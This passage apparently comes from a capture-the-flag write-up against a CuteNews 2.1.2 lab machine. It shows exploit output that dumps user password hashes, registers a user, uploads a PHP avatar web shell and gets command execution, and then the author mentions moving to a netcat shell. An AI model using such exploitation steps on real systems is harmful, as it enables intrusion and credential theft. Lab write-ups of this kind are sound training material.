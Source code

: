 ```
                               
                               
           _____     __      _  __                     ___   ___  ___ 
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                                ___  _________                         
                               / _ \/ ___/ __/                         
                              / , _/ /__/ _/                           
                             /_/|_|\___/___/                           
                                                                       
                                                              



[->] Usage python3 expoit.py

Enter the URL> http://10.10.10.206
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: 4KEwugSNsY and password: 4KEwugSNsY

=======================================================
Sending Payload
=======================================================
signature_key: e9ddd34fc592ae55bff38cd6214922e1-4KEwugSNsY
signature_dsi: 5f709436967bc29b5022a7cb0c143199
logged in user: 4KEwugSNsY
============================
Dropping to a SHELL
============================

command > ls
avatar_4KEwugSNsY_4KEwugSNsY.php
avatar_egre55_ykxnacpt.php
avatar_hacker_jpyoyskt.php
avatar_testing_file.php
```
Okay, seems like we have code exec! That's awesome! After getting a RCE on a system via any means I immediately switch to a netcat shell as it's usually much more stable and better,
